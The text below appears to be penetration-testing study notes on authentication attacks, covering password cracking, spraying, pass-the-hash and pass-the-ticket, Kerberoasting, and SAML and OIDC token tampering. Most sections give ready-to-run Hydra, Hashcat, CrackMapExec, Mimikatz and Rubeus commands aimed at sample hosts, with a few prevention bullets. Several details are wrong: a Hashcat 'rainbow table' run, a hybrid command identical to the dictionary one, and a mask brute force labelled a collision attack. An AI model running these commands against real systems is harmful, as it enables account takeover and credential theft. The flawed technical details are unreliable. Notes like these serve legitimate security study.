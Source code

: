 
## Importance
- Authentication is the gatekeeper to systems—cracking it yields full access  
- Reveals misconfigurations and protocol flaws that real-world attackers exploit  

---


## Core Lessons & Techniques

### 1. Password Attacks
#### Brute-Force
- **Definition:** Try every combination until the correct one is found  
- **Tool:** Hydra  
- **Command Example:**
  ```bash
  hydra -l jkelly -x 4:8:abcdefghijklmnopqrstuvwxyz1234567890 \
        ssh://192.168.1.100
```
- `-l jkelly` = username
- `-x 4:8:…` = password length 4–8, allowed chars

#### Dictionary
- **Definition:** Use wordlists of common passwords
- **Tool:** John the Ripper
- **Command Example:**
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt \
         --rules --format=raw-md5 hash_file.txt
    ```

#### Hybrid
- **Definition:** Dictionary + brute-force mutations
- **Command Example:**
    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt \
         --rules --format=raw-md5 samplehashfile.txt
    ```

#### Rainbow-Table

- **Definition:** Precomputed hash→plaintext lookup
- **Tool:** Hashcat
- **Command Example:**
    ```bash
    hashcat -m 0 -a 0 -o cracked.txt hashes.txt \
             /usr/share/rainbow-tables/rockyou.hctab
    ```

---

### 2. Credential Attacks

#### Password Spraying

- **Definition:** Try one common password against many accounts
- **Tool:** CrackMapExec
- **Command Example:**
    ```bash
    crackmapexec smb 192.168.1.0/24 \
      -u users.txt -p 'Summer2024!'
    ```

#### Password Masking
- **Definition:** Mask-based attack fitting known password patterns
- **Tool:** Hashcat
- **Command Example:**
    ```bash
    hashcat -a 3 -m 0 hashfile.txt \
      '?u?l?l?l?l?d?d?s'
    ```

#### Credential Stuffing

- **Definition:** Replay breached username/password pairs
- **Tool:** Hydra
- **Command Example:**
    ```bash
    hydra -L usernames.txt -P passwords.txt \
          http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
    ```

#### MFA Fatigue

- **Definition:** Flood user with MFA prompts until they approve
- **Prevention:**
    - Use push-binding MFA (only one prompt per login)
    - Train users to deny unexpected prompts

---

### 3. Credential-Passing Attacks

#### Pass-the-Hash
- **Definition:** Use NTLM hash in place of password
- **Tool:** Mimikatz + CrackMapExec
- **Commands:**
    ```powershell
    # Extract hashes
    mimikatz # sekurlsa::logonpasswords
    # Use hash to authenticate
    crackmapexec smb 10.0.0.5 -u '' -H aad3b435b51404eeaad3b435b51404ee
    ```

#### Pass-the-Ticket
- **Definition:** Reuse Kerberos TGTs/TGSs for SSO
- **Tools:** Mimikatz + Impacket
- **Commands:**
    ```powershell
    # Export tickets
    mimikatz # kerberos::list /export
    # Impacket psexec with ticket
    psexec.py -k -no-pass DOMAIN/user@10.0.0.5
    ```

#### Pass-the-Token
- **Definition:** Steal and reuse JWT/OAuth tokens
- **Usage:**
````http
    GET /api/data HTTP/1.1
    Host: example.com
    Authorization: Bearer <stolen_JWT_token>
````

---
### 4. Directory Service Attacks

#### Kerberos
- **Kerberoasting:** Crack service account hashes offline
- **Tool:** Rubeus or Mimikatz + Hashcat
- **Command Example (Rubeus):**
    ```powershell
    Rubeus kerberoast /outfile:kerberoast_hashes.txt
    ```
- **Prevention:** Strong service‐account passwords, AS‐REP hardening

#### LDAP Injection

- **Definition:** Inject malicious filter into LDAP queries
- **Example:**
    ```ldap
    (&(uid=*)(!(uid=*)(|(uid=*)(pthread*))))
    ```
- **Prevention:** Input validation, parameterized LDAP calls

---

### 5. Automated Attack Frameworks

#### CrackMapExec (CME)
- **Functions:** SMB auth, hash/ ticket relay, command exec
- **Example Commands:**
    ```bash
    # Validate creds across network
    cme smb 192.168.1.0/24 -u users.txt -p passwords.txt
    
    # Execute ipconfig remotely
    cme smb 10.0.0.5 -u 'admin' -p 'P@ssw0rd' -x 'ipconfig'
    ```

> CrackMapExec is not actively maintained anymore so highly suggested to use Rubeus instead in the future

#### SAML Attacks
- Application to enable single sign on aka SSO's
- **Token Manipulation:** Modify `<Attribute>` in SAML assertion
	- **Tool:** SAML Raider (Burp extension)
- **SAML Replay Attack:** Intercept SAML response and reuse for access.
- **SAML Injection Attacks**: Exploit vulns in app that process SAML tokens.
    1. Edit `<saml:Attribute Name="Role">user</…>` → `admin`
    2. Re-sign and forward
- **Prevention**:
	- Always validate and sanitize user inputs & SAML tokens
	- Use parameterized queries
	- Enforce strict XML schema validation
	- Ensure token's short lifetimes & reject accepted tokens

#### OpenID Connect (OIDC) Attacks
- Based on OAuth 2.0 protocol to verify the identify of end users & (SSO)
- **ID Token Maniplulation:** Flip `"admin":false` → `"admin":true`
- **Tool:** Burp + custom JWT editor
- **Prevention:**
    - Verify token signature with OP’s public key
    - Check nonce, `aud` and `exp` claims
- **ID Token Replay Attack**: Captures token to reuse the token for access
- **ID Token injection**: Exploit vulns in app that process the tokens itself

- **WebFinger Service**: Gather information about users or resources
	- Common endpoints: `.well-known/webfinger`
	- **Prevention**: restrict access to these endpoints & monitor queries

- **SSRF via Dynamic Client Registration**: basically conduct an SSRF by manipulating registration requests to cause the server to give out data.

---

### 6. Hash-Based Attacks

#### Collision (Birthday) Attacks
- **Definition:** Find two inputs with same hash
- **Tool:** Hashcat
- **Example:**
    ```bash
    hashcat -m 0 -a 3 -o collisions.txt hash.txt '?a?a?a?a?a'
    ```

#### Strengthening Hash Storage
- **Salting:** Unique per-user random salt →
    ```python
    salted = salt + password
    hash = PBKDF2(salted, iterations=100_000)
    ```
- **Key Stretching:** Used to enhance hash security and time to compute it
	- **Examples**: PBKDF2 / bcrypt / scrypt for CPU hardness

